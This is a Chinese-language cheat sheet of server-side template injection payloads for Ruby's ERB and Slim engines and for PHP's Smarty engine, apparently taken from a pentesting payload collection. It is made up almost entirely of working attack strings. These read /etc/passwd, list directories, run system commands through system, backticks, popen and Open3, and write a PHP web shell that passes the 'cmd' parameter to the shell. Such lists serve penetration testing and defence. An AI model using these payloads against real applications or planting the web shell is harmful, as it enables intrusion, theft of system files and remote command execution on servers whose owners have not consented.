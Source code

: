 
---

## Ruby

### Ruby - 基本注入

ERB：

```ruby
<%= 7 * 7 %>
```

Slim：

```ruby
#{ 7 * 7 }
```

### Ruby - 读取 /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - 列出文件和目录

```ruby
<%= Dir.entries('/') %>
```

### Ruby - 代码执行

使用 SSTI 执行 ERB 引擎的代码。

```ruby
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

使用 SSTI 执行 Slim 引擎的代码。

```powershell
#{ %x|env| }
```

---

## Smarty

[官方网站](https://www.smarty.net/docs/en/)

> Smarty 是 PHP 的一个模板引擎。

```python
{$smarty.version}
{php}echo `id`;{/php} //在 smarty v3 中已弃用
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // 兼容 v3
{system('cat index.php')} // 兼容 v3
```

---